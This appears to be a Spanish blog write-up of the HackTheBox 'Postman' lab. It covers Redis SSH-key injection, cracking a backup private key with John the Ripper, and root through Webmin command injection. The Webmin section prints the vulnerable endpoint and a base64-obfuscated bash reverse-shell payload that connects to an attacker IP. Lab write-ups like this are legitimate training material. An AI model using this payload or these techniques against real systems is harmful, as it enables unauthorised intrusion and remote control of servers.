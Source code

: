 ```yaml
---
layout: post
title: Write-Up Máquina Postman HTB
date: 2021-01-14 01:23 +0800
last_modified_at: 2021-01-14 01:28 +0800
tags: [htb, writeup, ssh, Redis, Webmin, Linux]
toc:  true
---
```

![Postman-Card](/assets/imagenes/2021-01-14-postman-HTB/Postman-card.png)

---
## Introducción

La máquina Postman corre ins sistema linux de 64 bits y tiene un nivel de deificultad fácil. Para la explotación inicial, vamos a hacer uso de una vulnerabilidad de escritura de ficheros que afecta al servicio Redis entre las versiones 4.0 y 5.0. Posteriormente a esto vamos a utilizar una clave privada que se encentra en un directorio de la maquina para realizar un movimiento lateral y asi conseguir el user. Para la escalada de privilegios, vamos a hacer uso de una vulnerabilidad de rce en el servicio webmin con la que obtendremos una shell reversa.

---
## Escaneo

![Postman-nmap](/assets/imagenes/2021-01-14-postman-HTB/Postman-nmap.png)

El escaneo de la maquina nos revela que tenemos abiertos los puertos:
* 22 ----> SSH
* 80 ----> http
* 6379 --> Redis
* 10000 -> http

### Puerto 80 (apache)

En el puerto 80 nos encontramos con una web que dice estar en construccion:

![Postman-web](/assets/imagenes/2021-01-14-postman-HTB/Postman-web.png)

En este caso la web no aloja nada que nos interese para la explotación.

### Puerto 3679 (Redis)

Buscando informacion sobre la version de redis encontramos un articulo de medium que habla sobre [como obtener una rce en Redis](https://medium.com/@knownsec404team/rce-exploits-of-redis-based-on-master-slave-replication-ef7a664ce1d0).
Para nuestro caso vamos a modificar un poco los comandos que ejecuta, pero la base es la misma.
El procedimiento que vamos a seguir en este caso es crear un par de claves RSA  e inyectarlas al servidor Redis para escribirlas en el fichero authorized_keys del user redis.

### Puerto 10000 (Webmin)

En el puerto 10000 nos encontramos un webmin desactualizado del que no tenemos ningun tipo de credencial.

---

## Explotación

Lo primero, vamos a generar nuestro par de claves:

![Postman-id-rsa-redis](/assets/imagenes/2021-01-14-postman-HTB/Postman-id-rsa-redis.png)

Una vez generadas vamos a empezar a interactuar con el servidor redis para para inyectar nuestra clave publica en las claves autorizadas.

![Postman-explotacion](/assets/imagenes/2021-01-14-postman-HTB/Postman-explotacion-redis.png)

Una vez hecho esto, le asignamos los permisos correctos a nuestra clave privada (600) y nos conectamos por ssh.

![Postman-ssh](/assets/imagenes/2021-01-14-postman-HTB/Postman-ssh-redis.png)

---

## Movimiento lateral

Si nos vamos al directorio /opt, veremos un fichero llamado id_rsa.bak el cual es propiedad del user Matt.

![Postman-id_rsa.bak-dir](/assets/imagenes/2021-01-14-postman-HTB/Postman-id-rsa-matt-bak-opt.png)

Ya que tenemos la clave privada vamos a copiarla y a intentar crackearla con la herramienta john the ripper.
Pero primero tenemos que pasar la clave privada a un formato entendible para john, porlo que vamos a isar la herramienta `/usr/share/john/ssh2john.py`. El comando quedaria de la sigiente manera:
* /usr/share/john/ssh2john.py id_rsa.bak > id_rsa-bak.txt (Para las ultimas versiones de ParrotOs y Kali que no traen el paquete python hay que editar la primera linea del fichero y cambiar *python* por **python2.7**).

Una vez ejecutado ya podemos intentar crackear la clave.

![Postman-cracked-Matt](/assets/imagenes/2021-01-14-postman-HTB/Postman-cracked-matt.png)

**¡¡Ya tenemos una posible password para el user Matt!!**

Vamos a probarla.

![Postman-su-Matt](/assets/imagenes/2021-01-14-postman-HTB/Postman-su-Matt-succesful.png)

Ya somos Matt.

![Postman-Matt-flag](/assets/imagenes/2021-01-14-postman-HTB/Postman-prueba-Matt.png)

---

## Escalada de privilegios

Para la escalada de privilegios nos vamos a aprovechar de una vulneravilidad en el servicio webmin que nos permitira llamar a una shell reversa a traves de bash.

Primero vamos a encodear el comando en base64.

![Postman-bash-payload](/assets/imagenes/2021-01-14-postman-HTB/Postman-bash-payload.png)

Ahora generaremos el payload que vamos a mandar al servidor.

![Postman-peticion](/assets/imagenes/2021-01-14-postman-HTB/Postman-peticion.png)

* URL: 10.10.10.160:10000/package-updates/update.cgi
* Method: POST
* payload: u=acl%2Fapt&u=$(command)

En nuestro caso la string del comando es:
```bash
echo${IFS}YmFzaCAtYyAnYmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xNi8xMjM0IDA%2bJjEn|base64${IFS}-d|bash
```
${IFS} se usa para sustituir los espacios y %2b es para sustituir los simbolos + y que no se transformen en espacios.

Con el listener levantado reciviremos la conexion.

![Postman-rev-shell-root](/assets/imagenes/2021-01-14-postman-HTB/Postman-rev-shell-root.png)








